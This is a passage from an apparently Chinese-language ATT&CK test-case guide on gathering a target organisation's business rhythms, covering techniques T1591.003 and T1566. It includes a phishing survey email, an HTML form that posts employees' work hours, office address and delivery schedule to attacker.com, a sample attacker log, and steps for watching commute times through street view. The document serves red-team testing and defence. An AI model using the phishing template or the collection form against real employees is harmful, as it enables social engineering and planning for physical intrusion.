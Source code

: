 #### 测试案例 3：钓鱼收集业务节奏信息
**关联技术**：T1591.003（业务节奏信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露工作时间、车辆进入情况或资源交付信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 员工工作时间调查
  Body: 请提供您的工作时间、办公室地址及硬件交付频率：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      工作时间: <input type="text" name="work_hours">
      办公室地址: <input type="text" name="office_address">
      硬件交付频率: <input type="text" name="delivery_frequency">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
work_hours=9 AM to 5 PM&office_address=123 Tech Street&delivery_frequency=Weekly on Mondays
```
**说明**：  
- 钓鱼攻击可直接收集业务节奏信息，为物理入侵或精准社交工程提供基础。  
- 关联 T1591.003：通过钓鱼获取业务节奏信息。

#### 测试案例 4：通过公开数据源观察上下班时间
**关联技术**：T1591.003（业务节奏信息收集）  
**说明**：  
- 攻击者通过公开摄像头、社交媒体或在线地图（如 Google Maps 街景）观察目标组织的上下班时间或车辆进入情况。  
**示例操作**：
- 搜索目标组织的办公地点街景，分析员工上下班时间或车辆进入模式。
- 示例 Google Maps 街景观察：  
  ```
  Location: 123 Tech Street, observed employee vehicles entering at 8:30 AM and leaving at 5:30 PM.
  ```
**输出示例**：
```
Location: 123 Tech Street
Business Rhythm: Employees enter at 8:30 AM, leave at 5:30 PM
```
**说明**：  
- 公开摄像头或街景数据可暴露员工上下班时间，为物理入侵提供情报。  
- 关联 T1591.003：通过公开数据源获取业务节奏信息。

## 测试复现

### 外部场景（公开信息收集）
1. **环境**：Kali Linux 或任何带有浏览器的系统。
2. **步骤**：
   - 搜索目标组织的社交媒体（如 LinkedIn、Twitter）或官网，提取业务节奏相关关键词（如“work hours”、“delivery”）。
   - 访问 Google Maps 街景，观察办公地点员工上下班时间或车辆进入情况。
   - 使用伪造邮件或调查问卷诱导员工泄露工作时间或交付信息。
3. **预期结果**：返回业务节奏信息（如 `9 AM to 5 PM work hours`, `Weekly hardware deliveries on Mondays`）。
